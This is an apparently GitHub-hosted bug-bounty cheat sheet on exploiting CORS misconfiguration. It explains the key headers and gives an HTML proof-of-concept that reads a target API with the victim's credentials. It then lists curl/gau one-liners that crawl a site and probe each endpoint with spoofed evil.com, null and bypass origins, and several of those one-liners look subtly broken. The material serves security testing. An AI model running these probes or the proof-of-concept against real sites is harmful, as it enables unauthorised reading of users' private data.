



# Cross Origin Resource Sharing (CORS)

- You can see CORS as a ‘domains white list’. CORS doesn’t add security, but it selectively removes security in order to make access to resources possible.

- CORS adds flexibility to the SOP. For example, CORS allows possiblevictim.org to say: “trustedsite.com is allowed to use JavaScript for GET and POST requests and read the corresponding responses”.

# How to enable CORS for a specific domain?

CORS uses a set of HTTP response headers that define trusted web origins. One of the CORS headers defines whether authenticated access is enabled. CORS headers are used in the exchange between the browser and the cross-origin website that the browser is are trying to access.

# The 2 important CORS headers:

` Access-Control-Allow-Origin: <http(s)://domain name> `

` Access-Control-Allow-Credentials: <true /false> `

# Possible dangers with CORS:

Mistakes can be made in the implementation of CORS. Some applications need to allow access to many other domains (f.e. API endpoints). Maintaining the list of allowed domains requires an ongoing effort, and any error risks breaking functionality. Therefore, some applications take the easy way out of effectively allowing access from any other domains. Developers may derive the value for “Access-Control-Allow-Origin” from the Origin request header and dynamically update the value. Combining the “Access-Control-Allow-Origin” header with “Access-Control-Allow-Credentials: true” can be dangerous.

**How can you enumerate whether CORS is enabled?**

Examine the response headers. Look for headers that start with “Access-Control-Allowed”. The search feature in Burp Suite or OWASP ZAP can help with this.

**How can you determine if CORS is misconfigured?**

Once you’ve found the CORS response headers, you can modify the Origin headers to see if CORS is misconfigured.

For example, suppose a website attacker.com (Origin: attacker.com) causes the following cross-domain request:

```http
GET /data HTTP/1.1
Host: vulnerable.com
Origin : https://attacker.com
```

**The server on vulnerable.com returns the following response:**

```http
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://attacker.com
Access-Control-Allow-Credentials: true
```

Effectively, this means attacker.com could send a request to ‘vulnerable.com’ and read the appropriate response.

A target web server is vulnerable to CORS attacks if:
`Access-Control-Allow-Credentials: true`
and
`Access-Control-Allow-Origin = <http(s)//:fqdn_attacker>`

Using the OPTIONS method, you can determine which request Origins are allowed. For example, https://mywebsite.com is a trusted origin (see screenshot below).



Allowed origin = `https://mywebsite.com`

Attempting the origin “`https://attacker-mywebsite.com`” will return a response `“Access-Control-Allow-Origin: https://attacker-mywebsite.com”` (see screenshot below). This means the web server only checks if the origin ends on "mywebsite.com". In this situation, we are dealing with a weak CORS configuration. An attacker could exploit this scenario by registering any domain ending with “mywebsite.com”.



## Exploiting CORS

Testing:
`curl --head -s 'http://example.com/api/v1/secret' -H 'Origin: http://evil.com'`

Check to see what the server responds with in the `Access-Control-Allow-Origin:` (if anything) and if so, check if `Access-Control-Allow-Credentials: true` is present.

If it is trusting arbitrary origins **with** allow-credentials set to true, then host this HTML as a proof of concept.

```html
<!DOCTYPE html>
<html>
<head><title>BugBounty CheatSheet</title></head>
<body>
<center>
<h2>CORs POC</h2>

<textarea rows="10" cols="60" id="pwnz">
</textarea><br>
<button type="button" onclick="cors()">Exploit</button>
</div>

<script>
function cors() {
  var xhttp = new XMLHttpRequest();
  xhttp.onreadystatechange = function() {
    if (this.readyState == 4 && this.status == 200) {
      document.getElementById("pwnz").innerHTML = this.responseText;
    }
  };
  xhttp.open("GET", "http://example.com/api/v1/topsecret", true);
  xhttp.withCredentials = true;
  xhttp.send();
}
</script>
```

```
xyz.com = subdomain.xyz.com 
xyz.com = pexels.com
```

Look at this amazing CORS PoC in Edmodo <a:PartyParrot:1050252232731414579> 

https://www.youtube.com/watch?v=T6SgOvdr2vU

## CORS one-liners

This is an extremely helpful and practical Cheatsheet for Bug Hunters, which helps you find CORS missconfiguration in every possible method. Simply replace `https://example.com` with the URL you want to target. This will help you scan for CORS vulnerability without the need of an external tool. What you have to do is to copy-and-paste the commands into your terminal and finger crossed for any possible CORS.



**1.1 Basic Origin Reflection payload — (Automatic) Send request to every crawled endpoint of the website**

```
site="https://example.com"; gau "$site" | while read url;do target=$(curl -s -I -H "Origin: https://evil.com" -X GET $url) | if grep 'https://evil.com'; then [Potentional CORS Found]echo $url;else echo Nothing on "$url";fi;done
```

**1.2 Basic Origin Reflection payload — (Manualy) Send request in only one endpoint**

```
site="https://example.com";curl -s -I -H "Origin: https://evil.com" -X GET "$site" | if grep 'https://evil.com'; then echo [Potentional CORS Found]; else echo Nothing found;fi
```

**2.1 Trusted null Origin payload — (Automatic) Send request to every crawled endpoint of the website**

```
site="https://example.com"; gau "$site" | while read url;do target=$(curl -s -I -H "Origin: null" -X GET $url) | if grep 'Access-Control-Allow-Origin: null'; then echo [Potentional CORS Found] "$url"; else echo Nothing on: "$url";fi;done
```

**2.2 Trusted null Origin payload — (Manualy) Send request in only one endpoint**

```
site="https://example.com";curl -s -I -H "Origin: null" -X GET "$site" | if grep 'Access-Control-Allow-Origin: null'; then echo [Potentional CORS Found]; else echo Nothing found;fi
```

**3.1 Whitelisted null origin value payload — (Automatic) Send request to every crawled endpoint of the website**

```
site="https://example.com" ; gau "$site" | while read url;do target=$(curl -s -I -X GET "$url") | if grep 'Access-Control-Allow-Origin: null'; then echo [Potentional CORS Found] "$url"; else echo Nothing on: "$url";fi;done
```

**3.2 Whitelisted null origin value payload — (Manualy) Send request in only one endpoint**

```
site="https://example.com";curl -I -X GET "$site" | if grep 'Access-Control-Allow-Origin: null';then echo [Potential CORS Found];else echo Nothing found;fi
```

**4.1 Trusted subdomain in Origin payload [ *.example.com ] — (Manualy) Send request in only one endpoint**

```
url="https://example.com" ; curl -s -I -H "Origin: evil.$url" -X GET "$url" | if grep "Access-Control-Allow-Origin: evil.$url"; then echo [Potential CORS Found]; else echo [No CORS found]; fi
```

**4.2 Trusted subdomain in Origin payload [ *.example.com ] — (Automatic) Send request to every crawled endpoint of the website**

```
site="https://example.com" ; gau "$site" | while read url;do target=$(curl -s -I -H "Origin: evil.$url" -X GET "$url") | if grep 'Access-Control-Allow-Origin: null'; then echo [Potentional CORS Found] "$url"; else echo Nothing on: "$url";fi;done
```

**5.1 Abuse on not properly Domain validation — (Note: Replace URL with only domain — without http(s) protocols) — (Manualy)**

```
site="example.com";curl -s -I -H "Origin: https://not$site" -X GET "$site"| if grep "Access-Control-Allow-Origin: https://not$site"; then echo [Potentional CORS Found]; else echo Nothing found;fi
```

** ** **  **
**5.2 Abuse on not properly Domain validation — (Note: Replace URL with only domain — without http(s) protocols) — (Automatic) Send request to every crawled endpoint of the website**

```
site="https://example.com" ; gau "$site" | while read url;do target=$(curl -s -I -H "Origin: https://not$site" -X GET "$url") | if grep 'Access-Control-Allow-Origin: https://not$site'; then echo [Potentional CORS Found] "$url"; else echo Nothing on: "$url";fi;done
```
**6.1 Origin domain extension not validated vulnerability — (Manualy) Send request in only one endpoint**

```
site="https://example.com";curl -s -I -H "Origin: $site.evil.com" -X GET "$site" | if grep "Origin: Access-Control-Allow-Origin: $site.evil.com"; then echo [Potentional CORS Found]; else echo Nothing found;fi
```

**6.2 Origin domain extension not validated vulnerability — (Automatic) Send request to every crawled endpoint of the website**

```
site="https://example.com" ; gau "$site" | while read url;do target=$(curl -s -I -H "Origin: $site.evil.com" -X GET "$url") | if grep "Origin: Access-Control-Allow-Origin: $site.evil.com"; then echo [Potentional CORS Found] "$url"; else echo Nothing on: "$url";fi;done
```

**7.1 Advanced Bypassing using special characters + encoded — (Manual) Send request in only one endpoint**

```
site="https://example.com";payloads=("!" "(" ")" "'" ";" "=" "^" "{" "}" "|" "~" '"' '`' "," "%60" "%0b") ; for payload in ${payloads[*]}; do target=$(curl -s -I -H "Origin: $site$payload.evil.com" -X GET "$site") | if grep '$site$payload.evil.com'; then echo [+] Payload Reflected: $site$payload.evil.com; else echo Nothing found with: $site$payload.evil.com;fi;done
```
## Workflow

If the one-liner bash command displays output, it means that the website is vulnerable to the respective CORS missconfiguration. If no output is displayed while executed, no vulnerability was detected.

